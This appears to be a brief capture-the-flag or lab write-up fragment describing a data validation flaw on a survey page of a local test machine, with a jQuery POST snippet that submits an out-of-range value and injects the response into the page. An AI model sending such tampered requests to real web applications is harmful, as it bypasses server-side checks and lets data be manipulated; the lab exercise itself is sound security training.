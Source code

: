 ### Data Validation Vulnerability
##### [page_survey]('http://192.168.56.101/?page=survey')

###### Using JQuery to make a POST request and inject to page

```
        $.post("index.php?page=survey", { sujet: 2, valeur: 110 },
                function(a, c, d, e) {
                        $('body')[0].innerHTML = a;}
                                );
```

